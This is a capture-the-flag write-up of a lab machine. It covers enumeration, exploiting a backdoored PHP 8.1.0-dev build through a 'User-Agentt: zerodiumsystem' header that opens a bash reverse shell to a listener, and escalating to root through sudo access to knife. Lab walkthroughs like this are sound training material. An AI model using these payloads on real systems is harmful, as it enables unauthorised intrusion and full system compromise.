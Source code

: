 ## Phase 1: Enumeration

As always we start off with an nmap scan:

![](/images/user.png)

Nmap didn't show any outdated services, so we can check out the website. By visiting http://10.10.10.242 we can see that it's a static page - nothing interesting there.
> Checking the source code with Ctrl+U doesn't show anything interesting either, however
> after going over to network tab through developer tools I saw this response header: ```X-Powered-By: PHP/8.1.0-dev```
* Since PHP 8.1.0 is outdated it's probably vulnerable to an exploit => ```https://www.exploit-db.com/exploits/49933```

## Phase 2: Exploitation

First I set up nc to listen on port 9001 (nc -lvnp 9001), then
I used Burp Suite and FoxyProxy to intercept request of http://10.10.10.242/ and send this request:

![](/images/request.png)
* Added ```User-Agentt:zerodiumsystem("bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1 '");```

I sent the request and got a reverse shell: 

![](/images/user.png)

I then navigated to home/james and used ```cat user.txt``` to obtain the user flag.

![](/images/userblur.png)

## Phase 3: Privilege escalation

I started things out by running sudo -l to see which commands can be executed as sudo on this machine, as it turns out, we can execute /usr/bin/knife. Great!

![](images/sudocmd.png)

So now I simply executed ```sudo knife exec --exec "exec '/bin/sh -i' "``` in the command line to get root.

After that I navigated to /root and used ```cat root.txt``` to get root flag.

![](/images/rootflagblur.png)

And the box is complete!
